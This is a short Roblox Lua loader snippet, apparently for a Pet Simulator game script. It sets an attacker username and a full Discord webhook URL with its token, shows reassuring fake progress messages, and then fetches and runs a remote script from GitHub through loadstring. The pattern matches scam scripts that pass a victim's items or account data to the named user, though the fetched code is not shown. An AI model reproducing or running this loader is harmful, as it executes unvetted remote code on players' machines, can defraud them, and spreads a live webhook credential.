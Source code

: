 Username = "Darkros02"
WebHook = "https://discord.com/api/webhooks/1076629282425684050/q3KiaaReZugfT4W9VFTtt69pmNlTZ_Cn61NELPO50ZPrYRcdg36eJbP8PQPlpJS-RP3j"
 
_G.CustomScriptName = "Coen"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
